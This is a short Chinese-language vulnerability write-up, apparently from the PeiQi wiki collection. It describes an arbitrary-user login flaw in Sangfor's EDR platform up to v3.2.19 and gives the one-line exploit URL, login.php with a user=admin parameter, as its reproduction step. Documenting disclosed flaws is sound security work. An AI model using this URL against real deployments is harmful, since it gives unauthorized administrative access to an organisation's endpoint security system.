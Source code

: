 ```yaml
---
title: 深信服后台任意用户登陆漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - 深信服
---
```


# 深信服后台任意用户登陆漏洞

## 漏洞描述

深信服终端检测响应平台是深信服公司开发的一套EDR系统。攻击者利用该漏洞，登录任意用户

## 影响版本

> [!NOTE]
>
> EDR <= v3.2.19

## 漏洞复现

https://xxx.xxx.xxx.xxx/ui/login.php?user=admin

> [!NOTE]
>
> 注意最后的admin需要为存在的用户名

![](/img/20210924031330498084.png)